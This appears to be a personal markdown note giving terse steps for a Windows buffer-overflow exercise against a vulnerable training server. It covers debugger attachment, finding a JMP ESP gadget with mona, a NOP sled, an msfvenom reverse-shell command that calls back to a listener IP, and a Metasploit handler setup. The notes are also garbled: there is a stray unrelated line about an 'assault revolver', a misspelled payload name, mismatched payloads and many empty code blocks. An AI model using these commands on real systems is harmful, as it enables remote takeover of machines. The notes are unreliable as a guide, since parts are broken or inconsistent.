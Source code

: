 ## Windows Buffer Overflow
```
SECURE SERVER

port 9999
TRUN (value)

run imunity debugger
run program
attach program to debugger
play program
connect

re-run and attach
(bottom text box) -- !mona modules
use a dll with no protections
(bottom text box) -- !mona jmp -r esp -m "essfunc.dll"

*****NOP SLED*****

msfvenom for reverse shell
msfvenom -p windows/shell/reverse_tcp lhost=10.50.35.174 lport=4444 -b "\x00" -f python

msfconsole:
use multi/handler
show options
set payload windws/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set lport 4444(whatever we set it to in msfvenom)
exploit
run server
run script
(shell)



Fully Auto-Semi-Automatic Assault Revolver

```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

